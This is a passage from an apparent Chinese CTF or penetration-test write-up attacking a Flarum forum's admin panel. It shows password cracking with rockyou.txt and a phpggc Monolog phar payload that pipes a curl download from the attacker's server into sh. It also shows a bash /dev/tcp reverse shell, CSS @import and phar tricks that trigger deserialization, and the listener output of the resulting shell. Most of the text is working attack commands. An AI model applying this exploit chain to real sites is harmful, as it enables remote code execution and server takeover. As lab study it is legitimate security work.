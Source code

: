 用 rockyou.txt 跑后台登录口令：administrator/1chris

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/f09780ccdecc5b76.png)

之后的步骤根据 phith0n 师傅的文章“[从偶遇 Flarum 开始的 RCE 之旅](https://www.leavesongs.com/PENETRATION/flarum-rce-tour.html)” 进行操作。

生成 payload：

```
┌──(root㉿kali)-[/opt/phpggc]
└─# php phpggc -p tar -b Monolog/RCE6 system "curl atk_vps_ip:8000/1.txt|sh"
dGVzdC50eHQAAAAAAAAAAAAAA...
```

> 注：这里反弹 shell 需要主机，从攻击机的 web 服务加载 bash 脚本来执行，才能成功反弹 shell。

执行反弹 shell 的 bash 脚本 1.txt 的内容：

```bash
bash -c 'sh -i >& /dev/tcp/xx.xx.xx.xx/12345 0>&1'
```

在后台“编辑自定义 CSS”区域，写入：

```css
@import (inline) "data:text/css;base64,dGVzdC50eHQAAAAAAA...";
```

访问 CSS 地址，查看是否写入成功：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/85a770608f784d65.png)

再修改自定义 CSS，使用 phar 协议包含这个文件（相对路径），成功触发反序列化，执行命令：

```css
.test {
  content: data-uri("phar://./assets/forum.css");
}
```

如果保存按钮一直在转圈，就表示正在弹 shell 了：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/19a43b6c8cd477b9.png)

攻击机成功接收到 shell，但没有读取 flag 文件的权限：

```console
[root@kali ~]# nc -lvvp 12345
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::12345
Ncat: Listening on 0.0.0.0:12345
Ncat: Connection from xx.xx.xx.xx.
Ncat: Connection from xx.xx.xx.xx:57430.
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
web01
$
```
